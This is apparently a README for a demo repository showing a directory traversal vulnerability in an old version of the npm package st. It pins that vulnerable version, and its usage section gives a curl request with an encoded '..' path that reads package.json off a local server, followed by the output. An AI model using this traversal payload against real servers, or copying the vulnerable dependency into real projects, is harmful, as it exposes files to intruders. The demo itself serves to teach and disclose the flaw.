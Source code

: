 # vulnst
![CI](https://github.com/kg0r0/vulnst/workflows/CI/badge.svg)
Directory Traversal Demo of npm [st](https://www.npmjs.com/package/st).

## Usage

```
$ npm install
$ npm start
$ curl http://localhost:3000/public/%2e%2e/package.json
{
  "name": "stvuln",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "pug": "2.0.0-beta11",
    "st": "^0.2.4"
  }
}
```

## References
- https://snyk.io/vuln/npm:st:20140206
